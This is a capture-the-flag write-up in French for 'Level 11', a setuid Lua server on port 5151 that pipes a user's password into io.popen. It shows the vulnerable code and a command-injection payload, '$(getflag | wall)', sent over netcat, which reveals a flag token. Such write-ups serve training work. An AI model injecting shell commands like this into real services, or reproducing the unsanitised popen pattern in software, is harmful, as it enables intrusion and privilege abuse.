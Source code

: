 # Level 11

Home structure
```
$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
Le script lua, va ecouter sur le port `5151` et demande un mot de passe mais le plus important c'est la fonction de hash pour le mot de passe. On voit qu'il utilise `popen` de lib io. Ce que fait `popen`, est de tout simplement executer le premier paramètre dans bash (Comme dans `system()`).
<br/>
Ce qui voudrait dire qu'on pourrait executer n'importe quel commande via le paramètre pass de la fonction `hash`.
```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
...
```
On se connecte donc via `netcat`, il nous demande un mot de passe et on lui donne la command à executer dans un sous shell et le broadcast à tous les users.

```
$ nc 127.0.0.1 5151
Password: $(getflag | wall)

Broadcast Message from flag11@Snow
        (somewhere) at 15:32 ...

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Erf nope..
```
